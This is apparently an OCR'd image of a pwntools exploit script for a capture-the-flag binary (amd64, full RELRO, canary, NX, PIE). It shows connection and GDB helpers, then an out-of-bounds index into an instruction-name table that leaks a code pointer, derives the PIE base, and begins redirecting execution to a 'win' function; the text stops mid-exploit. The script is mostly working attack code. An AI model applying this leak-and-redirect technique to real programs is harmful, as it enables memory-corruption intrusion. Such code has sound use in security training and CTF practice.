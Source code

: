 ```python
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

p = start()
# STEP 1: LEAK MEMORY
p.recvuntil(b'?')
p.sendline(b'1')
p.recvuntil(b'>')

offset_to_instruction_table = (elf.sym['instruction_table'] - elf.sym['instruction_names'])//32

p.sendline(str(offset_to_instruction_table).encode())
p.recvuntil(b'>')
leak = p.recvuntil(b'Invalid instruction', drop=True)
leak = leak[1:]
leak += b'\x00\x00'

addr = struct.unpack('<Q',leak)[0]
# SET RELATIVE ADDRESSING

elf.address = addr - elf.sym['do_move']

log.success(f'Leaked memory: {hex(addr)}')
log.info(f"Address of win: {hex(elf.sym['win'])}")


# ABUSE THE INSTRUCTION TABLE TO CALL OUR CONSTRUCTED POINTER TO WIN
p.sendline(b'6')
p.recvuntil(b':')

```